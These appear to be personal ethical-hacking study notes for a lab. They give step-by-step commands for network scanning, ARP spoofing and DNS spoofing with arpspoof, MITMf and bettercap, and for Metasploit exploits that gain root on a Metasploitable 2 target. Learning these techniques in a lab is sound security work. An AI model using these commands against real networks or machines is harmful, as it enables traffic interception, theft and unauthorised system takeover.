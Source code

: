 # Ethical Hacking Notes


# Man in the Middle Attack


## Scan related

```console
arp -a
```

Check arp table on Windows


```console
netdiscover -r 10.0.2.0/24
```

Simplified version of nmap 

```console
nmap 10.0.2.0/24
```

Discover all IP and ports in the local network

## ARP Setup target victim PC

```console
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

10.0.2.15 is the target IP, 10.0.2.1 is router IP, this will tell victim PC I'm the router.

```console
arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

This will tell router, I'm the victim PC.

## Man in the middle framework

Installation

https://github.com/byt3bl33d3r/MITMf.wiki.git


Remember to turn on IP forward, or victim PC cannot access internet
```console
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Start

```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15
```

## DNS Attack



```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15 --dns
```

You can configure MITMF/config/mitmf.conf file to add dns info
In \[\[\[A\]\]\]
Use *.xxxx.com=10.0.2.10 to forward dns info to your own address.

On your own kali, host Web server.




## Bettercap

bettercap is another man in the middle framework with constant update.

```console
bettercap
```

help to see all services.

```console
net.probe on 
```

Discover IP on the local network

```console
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.15
arp.spoof on
```

fullduplex: both targets and gateway will be attached, otherwise only target

set target ip address

Turn on arp.spoof

Use net.sniff on to start sniffing packets

# System penetrating

Penetrate target systems

## Metaexploitable 2

Use nmap to scan target ports

Zenmap options:
1. Ping Scan
2. Quick Scan
3. Quick Scan Plus
4. Intense Scan



```console
msfconsole
```

msf framework, built on Ruby.

### Exploit vsftp 2.3.4

use exploit/unix/ftp/vsftpd_234_backdoor

show options

set RHOSTS 10.0.2.4

exploit

get root access


### Exploit samba usermap_Script

use exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.4

exploit

get root access

use exploit/linux/postgres/postgres_payload


show options

set RHOSTS 10.0.2.4

exploit

get root access

